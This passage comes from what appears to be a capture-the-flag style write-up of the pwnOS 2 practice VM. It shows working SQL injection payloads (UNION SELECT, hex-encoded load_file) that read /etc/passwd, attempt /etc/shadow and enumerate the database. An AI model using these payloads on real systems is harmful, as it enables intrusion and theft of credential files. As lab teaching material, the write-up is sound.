 {{< figure class="center" src="/images/posts/2012/pwnos2_sqli.jpg" >}}

And low and behold, we're vulnerable to SQLi.  And away we go.

{{< figure class="center" src="/images/posts/2012/pwnos2_sqli2.jpg" >}}

After playing around with the UNION SELECT's, it finally settled on 8 columns and 4 being the displayed one.  So `' UNION SELECT 1,2,3,user(), 4,5,6,7,8;-- -`

If you try that, you'll notice you can't actually stick the entire thing into the login box.  Busting Burp open will fix that:

{{< figure class="center" src="/images/posts/2012/pwnos2_sqli3.jpg" >}}

Which gives us:

{{< figure class="center" src="/images/posts/2012/pwnos2_sqli4.jpg" >}}

Fantastic!  This means that the mysql daemon is running as root user.  That makes our SQLi attacks much more dangerous; UDF is now available to us.  Lets explore the system a bit more.

```
' UNION SELECT 1,2,3,version(),5,6,7,8-- -
      Welcome 5.1.54-1ubuntu4
' UNION SELECT 1,2,3,database(),5,6,7,8-- -
      Welcome ch16
' UNION SELECT 1,2,3,load_file(/etc/passwd),5,6,7,8-- - 
      An error occured(...)
```

Looks like they're at the very least escaping slashes.  No problem:

```
> echo -n '/etc/passwd' | xxd -ps -
> 2f6574632f706173737764
' UNION SELECT 1,2,3,load_file(0x2f6574632f706173737764),5,6,7,8-- -
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:0:0:MySQL Server,,,:/root:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
landscape:x:104:110::/var/lib/landscape:/bin/false
dan:x:1000:1000:Dan Privett,,,:/home/dan:/bin/bash
> echo -n '/etc/shadow' | xxd -ps -
> 2f6574632f736861646f77
' UNION SELECT 1,2,3,load_file(0x2f6574632f736861646f77),5,6,7,8-- -
> Welcome
```
